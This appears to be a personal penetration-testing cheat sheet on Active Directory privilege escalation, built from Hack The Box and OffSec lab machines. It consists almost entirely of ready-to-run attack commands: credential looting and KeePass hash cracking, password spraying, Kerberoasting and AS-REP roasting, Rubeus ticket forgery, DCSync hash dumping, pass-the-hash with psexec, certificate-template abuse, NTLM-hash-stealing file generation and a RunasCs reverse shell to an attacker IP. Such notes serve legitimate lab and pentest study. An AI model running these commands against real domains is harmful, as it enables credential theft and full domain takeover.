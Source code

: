 # AD PrivEsc

{% hint style="info" %}
dc-ip you aclly gotta add the dc dns name too to hosts eg. dc.manager.htb or sum

printer config -> return \[HTB AD Easy]
{% endhint %}

{% embed url="https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet" %}

<figure><img src="../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

<div align="left"><figure><img src="../.gitbook/assets/image (115).png" alt=""><figcaption></figcaption></figure></div>

{% embed url="https://orange-cyberdefense.github.io/ocd-mindmaps/img/mindmap_ad_dark_classic_2025.03.excalidraw.svg" %}
Ultimate AD Mindmap
{% endembed %}

## Fundamentals

### DC Full Name

{% hint style="info" %}
Hutch WIndows PG
{% endhint %}

Full name aka DC name would be hostname of computer + domain name ie. `hutchdc.hutch.offsec` \[bloodhound don't work without this]

### Looting

**Cached Credentials**

**Database Files**

* `Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue`
* `keepass2john Database.kdbx > Keepasshash.txt`
* `john --wordlist=/usr/share/wordlists/rockyou.txt Keepasshash.txt`

**PowerShell history**

* `Get-History`
* `(Get-PSReadlineOption).HistorySavePath`
* `type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt` (Run for each user)

**Interesting Files**

* `cmdkey /list`
* In Users directories `Get-ChildItem -Path C:\Users\ -Include *.txt,*.log,*.xml,*.ini -File -Recurse -ErrorAction SilentlyContinue`
* On Filesystem `Get-ChildItem -Path C:\ -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue`
* `sysprep.*` `unattend.*`
* `Group Policies` `gpp-decrypt <hash>`

## Bloodhound

```
./SharpHound.exe --CollectionMethod All
bloodhound-python -u '[user]' -p '[password]' -d [domain] -dc [dc] -ns [ip] -c all
```

### Handy Tools

**SharpGPOAbuse - Modify Group Policy Objects**

```
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount [user] --GPOName [fake_GPO]
gpupdate /force
```

**RunasCs - If runas not there**

```
.\RunasCs.exe "[user]" '[password]' powershell.exe -r 10.10.14.2:9001
```

**gMSADumper - Reads any gMSA password blobs the user can access**

```
python3 gMSADumper.py -u '[user]' -p '[password]' -d [domain]
```

**pyLAPS - Read LAPS if user has the privilege**

```
python3 pyLAPS.py --action get -d "[domain]" -u "[user]" -p '[password]'
```

**NTLMTheft - Creates files that steal NTLM hashes if clicked on/accessed**

```
python ntlm_theft.py -g all -s 10.10.14.9 -f jtripz
```

## Rubeus

{% hint style="info" %}
defaultapppool user \[SeImpersonate no creds] from Flight \[HTB AD Hard] can perform DCSync using Rubeus
{% endhint %}

{% embed url="https://www.hackingarticles.in/a-detailed-guide-on-rubeus/" %}

```
.\Rubeus.exe hash /password:0xdf0xdf123 /user:0xdfFakeComputer /domain:support.htb
.\Rubeus.exe s4u /user:0xdfFakeComputer$ /rc4:B1809AB221A7E1F4545BD9E24E49D5F4 /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt
.\Rubeus.exe klist
.\Rubeus.exe asktgt /user:Administrator /certificate:C:\Programdata\cert.pfx
.\Rubeus.exe tgtdeleg /nowrap
```

## Kerberos

```
./kerbrute_linux_amd64 passwordspray -d FRIZZ.HTB ~/htb/rooms/frizz/output.txt '!suBcig@MehTed!R' --dc 'FRIZZDC.FRIZZ.HTB'
./kerbrute_linux_amd64 userenum -d egotistical-bank.local  ~/htb/sauna/newuser.txt --dc egotistical-bank.local -v | grep 'VALID' 
```

#### GetNPUsers - ASREP Roasting for users with no pre-auth

{% code title="18200" %}
```
python3 GetNPUsers.py [domain]/ -dc-ip [ip] -usersfile userlist.txt
./GetNPUsers.py -no-pass -dc-ip [ip] -request '[domain]/[user]'
```
{% endcode %}

#### GetUserSPN - find Service Principal Names and hash of associated user account

```
python3 GetUserSPNs.py [domain]/[user]:[password] -dc-ip [ip] 
python3 GetUserSPNs.py [domain]/[user]:[password] -dc-ip [ip] -request <get ticket here>
```

#### DNSTool \[krbrelayx] - Edit  ADIDNS (AD Integrated DNS)

Regular users create child objects by default, attackers can leverage that and hijack traffic - no need to be DNS Admin for this

```
python3 dnstool.py -u 'intelligence.htb\Tiffany.Molina' -p NewIntelligenceCorpUser9876 --action add --record web-0xdf --data 10.10.14.2 --type A 10.10.10.248
```

### Impacket

#### SecretsDump - Dump admin hashes if DCSync privileges enabled

```
sudo python3 secretsdump.py [domain]/[user]@[ip]
sudo python3 secretsdump.py -k -no-pass [host_domain] -just-dc-user [user] #Using KRB5CCNAME
```

#### getTGT - request a TGT and save it as ccache

```
python3 getTGT.py -dc-ip [ip] [domain]/'[user]':'[password]'
```

#### getST - request a Service Ticket and save it as ccache

```
python3 getST.py -spn [SPN] [-impersonate administrator] -hashes [hash] -dc-ip [ip] [domain]/[user]
```

#### PSexec - Semi shell that writes to $ADMIN share

You got a ticket for Admin? THis the place to be

```
export KRB5CCNAME=ticket.ccache; python3 psexec.py [domain]/[user]@[dc_domain] -k -no-pass
python3 psexec.py -hashes [hash] [user]@[ip] cmd.exe 
```

{% embed url="https://medium.com/@allypetitt/windows-remoting-difference-between-psexec-wmiexec-atexec-exec-bf7d1edb5986" %}

#### TicketConverter - convert kirbi files (commonly used by mimikatz) into ccache files and vice-versa

```
base64 -d ticket.kirbi.b64 > ticket.kirbi
./ticketConverter.py ticket.kirbi ticket.ccache
```

### AD CS (Certificate Service)

```
certipy-ad find -dc-ip [ip] -ns [ip] -u [user]@[domain] -p '[password]' -vulnerable -stdout
nxc ldap "domain_controller" -d "domain" -u "user" -p "password" -M adcs
.\Certify.exe find /vulnerable
.\Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:Administrator
```
